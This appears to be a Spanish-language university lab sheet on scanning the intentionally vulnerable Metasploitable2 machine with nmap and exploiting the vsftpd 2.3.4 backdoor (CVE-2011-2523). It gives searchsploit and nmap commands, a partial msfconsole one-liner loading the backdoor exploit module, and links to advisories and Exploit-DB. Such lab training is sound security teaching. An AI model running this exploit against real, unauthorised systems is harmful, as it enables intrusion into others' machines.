


# Práctica de Laboratorio 1 - Explotación de vulnerabilidades en `metasploitable2`

## Objetivos

- Explorar la máquina `metasploitable2` con `nmap`.
- Explotar la vulnerabilidad `vsftpd 2.3.4` con `metasploit`.

## Actividades

- Buscar información sobre la vulnerabilidad `vsftpd 2.3.4`.

[Reporte de Incibe](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2011-2523)

Se puede buscar en la base de datos de `searchsploit`:

```bash
searchsploit vsftpd 2.3.4
```



- Realizar un escaneo de la máquina `metasploitable2` y encontrar en qué puerto se está corriendo el servicio `vsftpd 2.3.4`.

```bash
nmap -sV 192.168.0.21
# -s para escaneo de servicios
# -V para ver la versión del servicio.
```

Resultado:



- Usar `metasploit` para explotar la vulnerabilidad ya mencionada.

```bash
msfconsole -q -x "use exploit/unix/ftp/vsftpd_234_backdoor; set RHOST"
```

## Recursos extra

[Incibe](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2011-2523)

[Exploit-db](https://www.exploit-db.com/exploits/17491)

[Exploit-db](https://www.exploit-db.com/exploits/49757)

[ScaryBeastSecurity](https://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)
